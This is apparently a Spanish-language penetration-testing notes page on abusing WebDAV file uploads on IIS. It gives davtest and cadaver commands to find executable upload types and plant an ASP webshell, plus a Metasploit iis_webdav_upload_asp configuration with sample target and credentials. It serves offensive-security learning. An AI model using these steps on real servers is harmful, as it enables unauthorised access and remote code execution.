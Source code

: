 # Microsoft IIS / WebDAV

## File Upload Abusing

En base a ciertas posibles configuraciones en WebDAV. Con credenciales validas, podremos subir archivos y explotarlos, de esta manera obtendremos acceso a la maquina.

En primer lugar necesitamos saber que tipos de archivos son permitidos subir y ejecutar. Sobre todo nos interesa PHP, ASP, ASPX, JSP. Para comprobar los archivos ejecutables, usaremos la herramienta davtest. En este caso si no hay autenticación:

```bash
davtest -url http://192.168.1.1/webdav
```

Si necesitamos credenciales especificas:

```bash
davtest -auth usuario:contraseña -url http://192.168.1.1/webdav
```

Por lo tanto se suben los archivos:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Y comprueba si se pueden ejecutar:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Cadaver

Ahora, usaremos la herramienta cadaver para subir y descargar archivos del WebDAV.&#x20;

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Subimos una webshell. Elegimos una escrita en asp:

```bash
/usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Accedemos:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Podemos usar metasploit para subir la web shell:

```perl
msfconsole

use exploit/windows/iis/iis_webdav_upload_asp

set RHOSTS 10.0.17.27

set HttpUsername bob

set HttpPassword password_123321

set PATH /webdav/metasploit%RAND%.asp

exploit
```

